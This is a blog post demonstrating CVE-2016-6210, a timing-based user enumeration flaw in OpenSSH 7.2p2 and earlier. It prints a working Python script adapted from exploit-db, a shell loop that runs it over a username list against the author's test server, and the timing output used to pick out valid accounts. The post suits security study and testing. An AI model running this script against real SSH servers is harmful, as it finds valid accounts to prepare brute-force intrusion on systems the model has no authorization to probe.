 Title:CVE 2016-6210 OpenSSHD user enumeration
Date: 07-23-2016 08:45
category:security
tags:cve, security, exploit, test
meta:cve, security, exploit, test

The 13th if July a new wild CVE appeared (Yes, Pokemon Go is still a buzz for
the moment).

The [CVE 2016-6210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6210)
allow a user enumeration on an SSH server by comparing request time between non
existing user and allowed ones.
This vulnerability target  OpenSSHD with a version of 7.2p2 or inferior.

That means with a good dictionary you may know which user are
present on the server with an SSH access.

This post just demonstrate how to exploit this vulnerability with a simple
example.

<!-- PELICAN_END_SUMMARY -->

## OpenSSHD <= 7.2p2 - User Enumeration

A tiny python script is present on
[exploit-db](https://www.exploit-db.com/exploits/40113/). I had to modify it a
bit in order to pass the username in parameter:

    #!/bin/python

    import paramiko
    import time
    import sys
    user = sys.argv[1]
    p='A'*25000
    ssh = paramiko.SSHClient()
    starttime=time.clock()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
             ssh.connect('192.168.4.231', username=user,
             password=p)
    except:
             endtime=time.clock()
    total=endtime-starttime
    print(str(user)+ ": " +str(total))

The script will simply try to connect to `192.168.4.231` with the user passed in
parameter and a password of 25 000 'A' and measure the time of the connection.

We create a simple list of possible user with a non existing user to be able to
compare connection times.

    [maggick@computer_name tmp]$ cat list
    nonExistsingUserForSure
    john
    root
    bob
    user
    alice
    max
    ssh_user

We launch the script against our test server:

    [maggick@computer_name tmp]$ while read l; do ./p.py $l; done < list
    nonExistsingUserForSure: 0.17941999999999997
    john: 0.18687900000000002
    root: 0.18173099999999998
    bob: 0.178726
    user: 0.23088699999999995
    alice: 0.13389600000000002
    max: 0.17069700000000004
    ssh_user: 0.24780699999999997

We can easily see that SSH root login is disallowed, and that the user `user`
and `ssh_user` are allowed to connect to the server using SSH.

As often with brute force, the major issue will be to build the dictionary but
some tools like [CeWL](https://github.com/digininja/CeWL) from digininja can
help build it.

